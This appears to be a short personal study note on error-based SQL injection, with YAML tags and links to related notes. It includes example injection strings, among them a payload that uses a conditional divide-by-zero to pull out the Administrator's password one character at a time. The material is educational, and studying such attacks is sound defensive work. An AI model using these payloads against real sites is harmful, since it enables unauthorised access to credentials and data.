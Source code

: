 ```yaml
---
Title: Error-based SQLi
tags:
  - SQLi
  - ERROR-BASEDSQLi
---
```

Error based sql is focused on error messages that a website returns, and exploiting that to extract sensitive data from the database.

> [!Example]
> ```sql
> xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
> --- in simpler terms: if 1=2, execute 1/0 (1 divided by 0, which returns a database error), else, return 'a'
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

We can exploit these errors, just like we did in [[Blind SQLi]].
> [!Sample Payload]
> ```sql
> xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
> --- If the condition is true, it should return an error, else, the condition will return true because of 'a' = 'a'

